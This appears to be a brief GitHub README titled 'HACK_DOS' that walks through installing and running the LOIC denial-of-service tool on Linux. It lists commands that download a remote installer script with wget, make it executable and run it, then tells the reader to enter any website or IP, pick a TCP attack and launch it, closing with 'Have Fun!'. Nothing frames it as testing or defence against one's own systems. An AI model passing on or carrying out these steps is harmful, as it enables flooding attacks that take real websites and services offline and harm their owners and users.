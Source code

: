 # HACK_DOS
Denial of Service attack

# Linux commands:
>> apt install git-core monodevelop
>> cd Desktop
>> mkdir loic
>> wget https://raw.github.com/nicolargo/loicinstaller/master/loic.sh
>> chmod 777 loic.sh
>> ./loic.sh install
>> ./loic.sh update
>> apt-get install mono-gmcs
>> ./loic.sh run


Then a LOIC GUI will be opened.]
Then copy and paste or type the website name or enter the IP.
Then enter the type of attack - TCP attack
Select time delay
Select launch attack
Have Fun!
